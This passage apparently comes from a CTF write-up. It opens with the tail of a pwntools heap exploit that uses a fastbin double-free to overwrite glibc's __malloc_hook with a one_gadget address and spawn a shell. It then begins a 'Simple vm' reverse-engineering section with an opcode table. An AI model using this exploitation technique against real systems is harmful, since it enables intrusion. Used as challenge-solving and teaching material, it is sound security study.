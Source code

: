 ```python
free(dup)
free(mid)
free(dup)
prog.success()

prog = log.progress('Linking fake chunk')
malloc_hook = libc_base + 0x3c4b10
fake_fast_addr = malloc_hook - 27 - 8
alloc(0x68, p64(fake_fast_addr))
alloc(0x68) # remove mid
alloc(0x68) # remove dup
prog.success()

prog = log.progress('Overwriting __malloc_hook')
one_gadget = libc_base + 0xf02a4
alloc(0x68, 'A'*19 + p64(one_gadget))
prog.success()

log.info('Popping shell')
alloc(0x18, final=True)

p.interactive()
```



Simple vm
---

We're given two files, a vm and a bytecode. By disassembling the vm it's easy to see what each instruction does and how it's saved in memory - it's all in `sub_400896`. As the function itself is quite long I won't copy it here, it's enough to see what each instruction does. In the following table, all items in `<` and `>` brackets are the values given right after the opcode.

|opcode|size in bytes|description|
|:----:|:-----------:|-----------|
|  00  |    5        | `exit(<exitcode>)`
|  01  |    5        | `jump <address>`
|  02  |    9        | `mov *<address>, <value>`
|  03  |    5        | `c = *<address>`
|  04  |    5        | `*<address> = c`
|  05  |    5        | `d = *<address>`
|  06  |    5        | `*<address> = d`
|  07  |    1        | `c += d`
|  08  |    1        | `c = ~(c & d)`
|  09  |    1        | Unused
|  0A  |    1        | `c = getchar()`
|  0B  |    1        | `putchar(c)`
|  0C  |    9        | `if(*<address> != 0) { *<address> -= 1; jump <target> }`
|  0D  |    1        | `c += 1`
|  0E  |    1        | `d += 1`
|  0F  |    1        | `c = d`
|  10  |    1        | `d = c`